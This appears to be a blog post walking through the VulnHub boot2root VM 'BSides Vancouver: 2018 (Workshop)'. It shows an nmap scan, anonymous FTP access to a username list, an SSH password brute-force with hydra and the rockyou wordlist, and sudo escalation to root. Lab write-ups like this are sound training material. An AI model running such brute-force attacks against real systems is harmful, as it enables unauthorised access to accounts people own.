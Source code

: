 ```yaml
---
layout: post
date: 2018-06-22 06:52:37 +0000
last_modified_at: 2018-06-27 11:03:32 +0000
title: "BSides Vancouver: 2018 (Workshop) Walkthrough"
subtitle: "A Vibrant Melting Pot"
category: Walkthrough
tags: [VulnHub, "BSides Vancouver"]
comments: true
image:
  feature: bsides-vancouver-2018-workshop-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/kermit-workshop-coffee-break-pliers-2091951/
---
```


This post documents the easiest walkthrough of BSides Vancouver: 2018 (Workshop), a boot2root [VM][1] created by [abatchy][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

This VM aims to create a safe environment to perform real-world penetration testing on an intentionally vulnerable target. As the name implied, the VM appeared as course material in a workshop during 2018 BSides Vancouver.

### Information Gathering

Let's start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 65534    65534        4096 Mar 03 17:52 public
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.30.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 2.3.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 85:9f:8b:58:44:97:33:98:ee:98:b0:c1:85:60:3c:41 (DSA)
|   2048 cf:1a:04:e1:7b:a3:cd:2b:d1:af:7d:b3:30:e0:a0:9d (RSA)
|_  256 97:e5:28:7a:31:4d:0a:89:b2:b0:25:81:d5:36:63:4c (ECDSA)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.22 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 1 disallowed entry
|_/backup_wordpress
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

`nmap` finds `21/tcp`, `22/tcp`, and `80/tcp` open. None of the services are vulnerable to any remote code execution attacks right off the bat. Let's explore the `ftp` service next since we can log in anonymously.

### FTP Service

There's a file `users.txt.bk` in the `public` directory—it contains usernames.

```
# cat users.txt.bk
abatchy
john
mai
anne
doomguy
```
### SSH Service

If I've to guess, these are probably users with an account in the target. Let's find out.

![SSH Login](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.jlutahztgc.png)

As you can see, `anne` is the sole account that can login via SSH with a password. This calls for a brute-force attack.

### Hail Hydra

For online brute-force attack, I like to use `hydra` and the **rockyou** wordlist. Here's the command.

```
# hydra -l anne -P /usr/share/wordlists/rockyou.txt -f -e nsr -o hydra.txt -t 4 ssh://192.168.30.129
[22][ssh] host: 192.168.30.129   login: anne   password: princess
```

### SSH Access

I don't believe it—this is way too easy.

![SSH Access](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.dovkhr1yz8s.png)

### Privilege Escalation

Guess what? `anne` is able to `sudo` as `root`.

![sudo](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.6pu5qdr84a.png)

### Eyes on the Prize

I got my eyes on the prize.

![flag.txt](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.m2ls023yfbf.png)

### Afterthought

Admittedly, this VM is not too difficult since it's targeting delegates attending the workshop. That's also the reason why there are other ways to gain remote access and `root`ing the VM because the instructor would then cover other attack surfaces like WordPress and/or kernel exploit during the workshop.

[1]: https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/
[2]: https://twitter.com/@abatchy17
[3]: https://www.vulnhub.com
